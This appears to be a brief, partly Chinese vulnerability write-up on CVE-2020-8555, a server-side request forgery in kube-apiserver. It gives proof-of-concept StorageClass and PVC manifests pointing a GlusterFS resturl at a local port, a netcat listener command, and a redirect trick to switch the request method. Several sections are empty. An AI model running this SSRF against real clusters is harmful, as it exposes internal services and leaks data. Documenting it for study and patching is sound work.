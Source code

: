 # CVE-2020-8555

## Experiment Environment

Affected Versions

- kube-apiserver v1.18.0-1.18.5
- kube-apiserver v1.17.0-1.17.8
- kube-apiserver v1.16.0-1.16.12
- all kube-apiserver versions prior to v1.16.0

## Description

kubernetes中对象

```yaml
apiVersion: storage.k8s.io/v1
kind: StorageClass
metadata:
  name: poc-ssrf
provisioner: kubernetes.io/glusterfs
parameters:
  resturl: "http://127.0.0.1:8080"
```

```yaml
apiVersion: v1
kind: PersistentVolumeClaim
metadata:
  name: poc-ssrf
spec:
  accessModes:
  - ReadWriteOnce
  volumeMode: Filesystem
  resources:
    requests:
      storage: 8Gi
  storageClassName: poc-ssrf
```

pvc匹配对应的storage对象，然后产生对应的PersistentVolume

## Install & Configuration

## Pocs

### 最简单的ssrf

```sh
nc -lt 127.0.0.1 8080
kubectl apply -f deployment.yaml
```

### 改变POST方法为GET方法

在8080端口部署一个服务，该服务返回重定向到其他服务，则方法可变为GET方法。

![image-20230218214809569](.assets/image-20230218214809569.png)

有可能将内容泄露在event中

## Vulnerability Details & Patch

不再event一些内容

## Root cause


